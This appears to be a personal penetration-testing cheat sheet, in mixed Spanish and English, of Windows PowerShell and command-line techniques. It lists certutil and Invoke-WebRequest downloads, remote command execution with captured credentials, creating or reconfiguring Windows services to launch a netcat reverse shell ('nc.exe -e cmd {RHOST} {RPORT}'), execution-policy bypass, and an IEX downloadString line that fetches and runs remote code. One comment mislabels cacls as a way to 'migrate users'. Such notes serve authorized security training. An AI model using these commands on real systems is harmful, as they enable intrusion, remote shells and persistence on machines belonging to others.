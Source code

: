 ![[Pasted image 20230215173659.png]]

---
## [Nishang](https://github.com/samratashok/nishang) ---> Repo de pentesting en Powershell

```powershell
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 
> cacls 
# Analizar los permisos de un archivo 
```

## Descargar archivos con certutil.exe
```shell
certutil.exe -f -urlcache -split {url/file} {file}
# Descargar un archivo desde una url y depositarlo 
```

## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```


## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell
> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```


